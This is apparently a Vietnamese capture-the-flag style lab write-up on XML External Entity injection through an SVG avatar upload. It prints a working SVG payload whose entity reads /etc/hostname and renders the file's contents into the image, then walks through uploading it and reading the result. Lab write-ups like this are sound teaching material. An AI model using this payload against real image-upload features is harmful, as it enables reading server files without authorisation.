

Ta tạo một file ảnh SVG chứa định nghĩa XML External Entity trỏ tới file `/etc/hostname`:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg">
  <text x="10" y="50">&xxe;</text>
</svg>
```



Tiến hành gửi bình luận và upload file SVG vừa tạo. Server chấp nhận và trả về mã 302 Found.



Quay lại bài viết xem danh sách bình luận, ảnh đại diện đã được hiển thị.



Mở trực tiếp file ảnh avatar vừa upload lên tab mới, ta thấy nội dung hostname `4aa62ae6deea` đã được render lên ảnh. Nhập hostname vào phần Submit solution để hoàn thành lab.


Vậy là hoàn thành bài lab này.

